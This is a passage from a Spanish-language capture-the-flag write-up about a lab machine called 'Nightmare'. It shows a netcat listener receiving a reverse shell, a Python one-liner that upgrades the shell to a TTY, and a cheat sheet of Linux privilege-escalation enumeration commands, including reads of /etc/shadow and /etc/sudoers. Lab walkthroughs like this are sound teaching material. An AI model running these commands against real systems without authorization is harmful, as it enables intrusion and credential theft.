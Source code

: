 
Luego de lo anterior, logramos obtener una shell por netcat por el puerto 443.  

{% highlight zsh %}
┌─[root@Horus] - [/Prometheus/Ethic4l-Hacking/Operations/Premium/Nightmare] - [lun sep 09, 04:15]
└─[$]> nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.66] 53890
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}

## Como liberarse de una shell no interactiva
Generando una shell TTY con python.  

{% highlight python %}
python -c "import pty; pty.spawn('/bin/bash')"
{% endhighlight %}

## Escalacion de privilegios en Linux
A continuacion, dejo una recopilacion de comandos utiles para enumerar un sistema y escalar privilegios.  

{% highlight markdown %}
Lectura de Archivos sensibles
cat /etc/passwd
cat /etc/group
cat /etc/shadow
Servicios ejecutando con privilegios de root?
ps aux | grep root 
Que usuario tienes actualmente
id 
whoami
Quién ha iniciado sesión 
w
Quién más tiene una sesion iniciada 
last
Lectura de permisos
cat /etc/sudoers
sudo -l
cat /etc/passwd | cut -d: -f1    # Listado de usuarios
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # Listado de super usuarios
awk -F: '($3 == "0") {print}' /etc/passwd   # Listado de Super usuarios
{% endhighlight %}

Entre toda la variedad de comandos que podemos ejecutar, para esta demostracion el mas util fue el siguiente:  

{% highlight bash %}
# Buscando ficheros del grupo Decoder
ftpuser@nightmare:/$ find / -group decoder 2>/dev/null
find / -group decoder 2>/dev/null
/home/decoder
/home/decoder/.bashrc
/home/decoder/.profile
/home/decoder/user.txt
/home/decoder/test
/home/decoder/.bash_logout
/usr/bin/sls
{% endhighlight %}
